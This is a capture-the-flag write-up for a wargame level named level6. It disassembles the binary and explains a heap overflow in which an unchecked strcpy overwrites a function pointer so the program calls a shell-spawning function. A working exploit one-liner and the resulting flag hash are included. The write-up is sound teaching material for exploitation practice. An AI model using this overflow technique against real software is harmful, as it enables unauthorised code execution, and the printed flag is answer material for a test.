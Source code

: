 level6
======

Dissassembly
------------

To dissassemble the executable we can use objdump.
```sh
EXECUTABLE=./level6

objdump -M intel -d "$EXECUTABLE"
```

The main function looks like this:
```nasm
0804847c <main>:
 804847c:	55                   	push   ebp
 804847d:	89 e5                	mov    ebp,esp
 804847f:	83 e4 f0             	and    esp,0xfffffff0
 8048482:	83 ec 20             	sub    esp,0x20
 8048485:	c7 04 24 40 00 00 00 	mov    DWORD PTR [esp],0x40
 804848c:	e8 bf fe ff ff       	call   8048350 <malloc@plt>
 8048491:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 8048495:	c7 04 24 04 00 00 00 	mov    DWORD PTR [esp],0x4
 804849c:	e8 af fe ff ff       	call   8048350 <malloc@plt>
 80484a1:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 80484a5:	ba 68 84 04 08       	mov    edx,0x8048468
 80484aa:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484ae:	89 10                	mov    DWORD PTR [eax],edx
 80484b0:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 80484b3:	83 c0 04             	add    eax,0x4
 80484b6:	8b 00                	mov    eax,DWORD PTR [eax]
 80484b8:	89 c2                	mov    edx,eax
 80484ba:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484be:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80484c2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c5:	e8 76 fe ff ff       	call   8048340 <strcpy@plt>
 80484ca:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484ce:	8b 00                	mov    eax,DWORD PTR [eax]
 80484d0:	ff d0                	call   eax
 80484d2:	c9                   	leave
 80484d3:	c3                   	ret
```

We can see two calls to malloc.
One is of size 0x40 and will contain a copy of the first argument:
```nasm
...
 8048485:   c7 04 24 40 00 00 00    mov    DWORD PTR [esp],0x40
 804848c:   e8 bf fe ff ff          call   8048350 <malloc@plt>
 8048491:   89 44 24 1c             mov    DWORD PTR [esp+0x1c],eax
...
 80484b0:   8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 80484b3:   83 c0 04                add    eax,0x4
 80484b6:   8b 00                   mov    eax,DWORD PTR [eax]
 80484b8:   89 c2                   mov    edx,eax
 80484ba:   8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 80484be:   89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 80484c2:   89 04 24                mov    DWORD PTR [esp],eax
 80484c5:   e8 76 fe ff ff          call   8048340 <strcpy@plt>
...
```

The second one is of size 0x04 and will contain a function pointer that will be executed.
```nasm
 8048495:   c7 04 24 04 00 00 00    mov    DWORD PTR [esp],0x4
 804849c:   e8 af fe ff ff          call   8048350 <malloc@plt>
 80484a1:   89 44 24 18             mov    DWORD PTR [esp+0x18],eax
...
 80484a5:   ba 68 84 04 08          mov    edx,0x8048468
 80484aa:   8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 80484ae:   89 10                   mov    DWORD PTR [eax],edx
...
 80484ca:   8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 80484ce:   8b 00                   mov    eax,DWORD PTR [eax]
 80484d0:   ff d0                   call   eax
```

This is the function located at the address 0x8048468:
```nasm
08048468 <m>:
 8048468:	55                   	push   ebp
 8048469:	89 e5                	mov    ebp,esp
 804846b:	83 ec 18             	sub    esp,0x18
 804846e:	c7 04 24 d1 85 04 08 	mov    DWORD PTR [esp],0x80485d1
 8048475:	e8 e6 fe ff ff       	call   8048360 <puts@plt>
 804847a:	c9                   	leave
 804847b:	c3                   	ret
```

There also is another function n, which uses a system call to run a shell:
```nasm
08048454 <n>:
 8048454:	55                   	push   ebp
 8048455:	89 e5                	mov    ebp,esp
 8048457:	83 ec 18             	sub    esp,0x18
 804845a:	c7 04 24 b0 85 04 08 	mov    DWORD PTR [esp],0x80485b0
 8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
 8048466:	c9                   	leave
 8048467:	c3                   	ret
```

Exploitation
------------

```sh
man strcpy
```

```
SECURITY CONSIDERATIONS
     The strcpy() function is easily misused in a manner which enables malicious users to arbitrarily change a running program's functionality through a buffer overflow attack.
```

Because strcpy is unsafe and there is no length check on the source string, we can overflow the destination and reach the next allocation, which happens to be the function pointer.

Through trial and error adding multiple of 4 to the destination buffer's size 64, we can overwrite the function pointer.
```sh
./level6 "$(printf '%.0sA' {1..72}; printf '%s' $'\x54\x84\x04\x08')"
```
```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
